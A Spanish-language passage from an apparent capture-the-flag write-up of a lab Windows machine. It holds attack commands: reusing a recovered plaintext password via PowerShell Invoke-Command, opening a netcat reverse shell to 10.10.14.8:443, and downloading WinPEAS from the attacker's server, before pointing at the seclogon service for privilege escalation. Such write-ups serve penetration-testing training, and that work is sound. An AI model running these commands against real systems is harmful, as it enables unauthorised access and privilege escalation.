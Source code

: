 	![23]
	
	Para esto, primero debemos hacer un tratamiento de estas credenciales que hemos obtenido. Todo este proceso debe hacerse desde una terminal de powershell. Como con el netcat obtuvimos una cmd, solo basta con escribir **powershell** para acceder a esta terminal:
	
	```
	$user = 'Fidelity\Hector'  //Este comando contempla HOST\USUARIO, donde el host puede encontrarse con el comando hostname
	$password = 'l33th4x0rhector'
	$secpw = ConvertTo-SecureString $password -AsPlainText -Force
	
	$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
	```
	
	Ahora con estas nuevas credenciales, solo debemos ejecutar un comando. Intentaremos un **whoami** para corroborar que todo funcione correctamente:
	
	```
	Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock {whoami}
	control\hector
	```
	
	Viendo que podemos ejecutar comandos como el usuario **Hector**, procedemos a usar el netcat que ya hemos subido al sistema para, de nueva cuenta, entablarnos otra reverse shell ahora como este usuario:
	
	``Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock {C:\\inetpub\\wwwroot\\uploads\\nc.exe -e cmd 10.10.14.8 443}``
	
	![24]
	
	![25]
	
+ Ya como el usuario Hector, podemos visualizar la flag de usuario:
	
	![26]
	
	Vemos que este usuario no cuenta con muchos privilegios dentro del sistema, lo que limita los vectores de ataque a probar para escalar privilegios. Ejecutamos un WinPeas en el sistema para enumerar en busca de posibles vectores de ataque. Para ello, nos valemos de nueva cuenta de powershell y el Invoke-WebRequest para subir el binario al sistema y poder ejecutarlo:
	
	``iwr -Uri http://10.10.14.8/winpeas.exe -OutFile C:\Users\Hector\Desktop\winpeas.exe``
	
	Empleamos la carpeta Desktop ya que el usuario tiene permisos de escritura aquí. Ejecutamos el WinPeas.
	
	![27]
	
+ Salta a la vista una serie de registros marcados con rojo, color que WinPeas usa para indicar algo que puede ser aprovechado como vulnerabilidad. Son la mayoría de registros del sistema, por no decir que todos. Uno es importante, ya que permite escalar privilegios de manera sencilla: **seclogon**.

	![28]
	